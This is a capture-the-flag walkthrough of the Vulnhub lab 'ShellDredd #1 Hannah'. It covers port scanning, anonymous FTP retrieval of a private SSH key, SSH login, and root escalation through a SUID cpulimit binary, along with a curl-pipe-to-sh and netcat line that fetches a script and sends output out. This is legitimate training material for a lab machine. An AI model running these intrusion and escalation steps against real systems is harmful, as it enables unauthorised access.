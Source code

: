 ```yaml
---
title: OnSystem ShellDredd #1 Hannah
author: am-a-circle
date: 2021-04-15 12:00:00 +0800
categories: [Vulnhub,easy]
tags: [SUID]
math: false
mermaid: false
---
```



## Overview

"ONSYSTEM: SHELLDREDD #1 HANNAH" is an easy boxes which is great for beginners to learn more about enumerating the poorly configured FTP port to search for sensitive information and escalate to root by exploiting SUID.

|Box Difficulty| Link|
|--|--|
| Easy | [Vulnhub Link](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/) |

For this box I will be attempting it on Offensive security **PG Play** .

## Recon

I always like to start with Masscan to find all open port followed by nmap enumeration.
```bash
masscan -p1-65535 192.168.109.130 --rate=1000 
Discovered open port 21/tcp on 192.168.109.130   
Discovered open port 61000/tcp on 192.168.109.130                              
```


```bash
# Nmap 7.91 scan initiated Sun Apr 11 03:44:50 2021 as: nmap -sV -sC -p 21,61000 -oN /opt/OSCP_PlayG/OnSystemShellDredd/nmap_full.txt 192.168.109.130
Nmap scan report for 192.168.109.130
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.109
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 03:45:01 2021 -- 1 IP address (1 host up) scanned in 11.80 seconds

```

Through this we can see that there is a FTP server on port 21 and a SSH at port 61000.

## FTP - TCP 21

We can see that anonymous login is allowed, let's test it:
```bash
# ftp 192.168.109.130
Connected to 192.168.109.130.
220 (vsFTPd 3.0.3)
Name (192.168.109.130:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Next , let's download all the files from the FTP server so we can look through the files :

```bash
 wget -m --no-passive ftp://anonymous:anonymous@192.168.109.130                                                                                                         
--2021-04-13 03:05:02--  ftp://anonymous:*password*@192.168.109.130/                                                                                                       
           => ‘192.168.109.130/.listing’                                                                                                                                   
Connecting to 192.168.109.130:21... connected.                                                                                                                             
Logging in as anonymous ... Logged in!                                                                                                                                    
==> SYST ... done.    ==> PWD ... done.                                                                                                                                   
==> TYPE I ... done.  ==> CWD not needed.                                                                                                                                 
==> PORT ... done.    ==> LIST ... done.       
```

```bash
┌──(root💀kali)-[/opt/OSCP_PlayG/OnSystemShellDredd/192.168.109.130]
└─# ls -laR
.:
total 16
drwxr-xr-x 3 root root 4096 Apr 11 03:52 .
drwxr-xr-x 4 root root 4096 Apr 13 03:05 ..
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .hannah
-rw-r--r-- 1 root root  184 Apr 11 03:52 .listing

./.hannah:
total 16
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .
drwxr-xr-x 3 root root 4096 Apr 11 03:52 ..
-r-------- 1 root root 1823 Aug  6  2020 id_rsa
-rw-r--r-- 1 root root  183 Apr 11 03:52 .listing

```

Great we can see that under the user folder .hannah , there is a id_rsa key. 

```bash
└─# cat id_rsa                     
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
....
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```

Looking into the content of the file, we can see that this is a OPENSSH PRIVATE KEY, and can use this to ssh into the system as hannah most probably!


## Shell as Hannah

We can see below that if we try to ssh as hannah using the private key,it is ignored as the permission are too open.
```bash
─# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000         
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '.hannah/id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key ".hannah/id_rsa": bad permissions
hannah@192.168.91.130's password: 
```

Instead we have to ensure that the key is read-writeable by you only before we can ssh as hannah!
```bash
# chmod 600 .hannah/id_rsa 
# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```

With that we are now in the shell as hannah!

## Shell as Root

One of the first things i like to do is run `linpeas.sh`
```bash
#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # On Host 
curl HOST-IP:8000/linpeas.sh | sh | nc HOST-IP 9002 #On Victim
```

After running `linpeash.sh` we can see that there is a cpulimit has a SUID permission which we can exploit. This mean we can run cpulimit command as root.
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════                                                                             
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                   
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                             
strings Not Found                                                                                                                                                         
strace Not Found                                                                                                                                                          
-rwsr-sr-x 1 root root       120K Mar 23  2012 /usr/bin/mawk                                                                                                              
-rwsr-xr-x 1 root root        10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                                          
-rwsr-sr-x 1 root root        23K Jun 23  2017 /usr/bin/cpulimit             
```

Thus to gain root privileges , we use cpulimit to copy bash into the temp directory, give it a "chmod +s" so that it maintains root privileges from suid.
```bash
hannah@ShellDredd:~$ cpulimit -l 50 -f cp /bin/bash /tmp/bash
Process 1165 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ cpulimit -l 50 -f chmod +s /tmp/bash
Process 1167 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ /tmp/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)

```

And we are root!
